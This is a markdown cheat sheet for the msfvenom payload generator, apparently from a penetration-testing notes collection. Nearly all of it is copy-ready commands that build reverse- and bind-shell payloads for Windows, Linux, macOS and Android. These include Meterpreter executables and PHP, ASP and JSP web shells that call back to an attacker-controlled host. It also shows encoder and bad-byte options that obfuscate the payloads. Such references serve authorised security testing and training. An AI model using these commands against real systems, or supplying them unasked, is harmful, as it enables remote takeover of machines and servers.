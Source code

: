 ```yaml
---
title: MSFVenom
tags:
  - cheatsheet
  - msfvenom
---
```

## Basic Usage

```bash
msfvenom -p <payload> [options] > <output_file>
```
## Common Payloads

### Windows Payloads
- **Windows Reverse Shell:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f exe > shell.exe
```
- **Windows Bind Shell:**
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=<target_ip> LPORT=<bind_port> -f exe > bind.exe
```
- **Windows Reverse HTTPS Shell:**
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=<attacker_ip> LPORT=<attacker_port> -f exe > shell_https.exe
```

### Linux Payloads
- **Linux Reverse Shell:**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f elf > shell.elf
```
- **Linux Bind Shell:**
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<target_ip> LPORT=<bind_port> -f elf > bind.elf
```

### macOS Payloads
- **macOS Reverse Shell:**
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f macho > shell.macho
```

### Android Payloads
- **Android Reverse Shell:**
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> R > shell.apk
```

### Web Payloads
- **PHP Reverse Shell:**
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f raw > shell.php
```
- **ASP Reverse Shell:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f asp > shell.asp
```
- **JSP Reverse Shell:**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f raw > shell.jsp
```

## Format Options
- **EXE (Windows Executable):**
```bash
-f exe
```
- **ELF (Linux Executable):**
```bash
-f elf
```
- **APK (Android Package):**
```bash
-f apk
```
- **Macho (macOS Executable):**
```bash
-f macho
```
- **RAW (Raw Format):**
```bash
-f raw
```

## Encoding Payloads
- **List Available Encoders:**
```bash
msfvenom --list encoders
```
- **Use a Specific Encoder:**
```bash
msfvenom -p <payload> -e <encoder> -f <format> > <output_file>
```
- **Common Encoder Example (Shikata Ga Nai):**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -e x86/shikata_ga_nai -f exe > encoded_shell.exe
```

## Additional Options
- **Bad Characters (Avoid Specific Bytes):**
```bash
msfvenom -p <payload> -b "\x00\xff" -f <format> > <output_file>
```
- **Add a NOP Sled:**
```bash
msfvenom -p <payload> -n <number_of_nops> -f <format> > <output_file>
```
- **List All Payloads:**
```bash
msfvenom --list payloads
```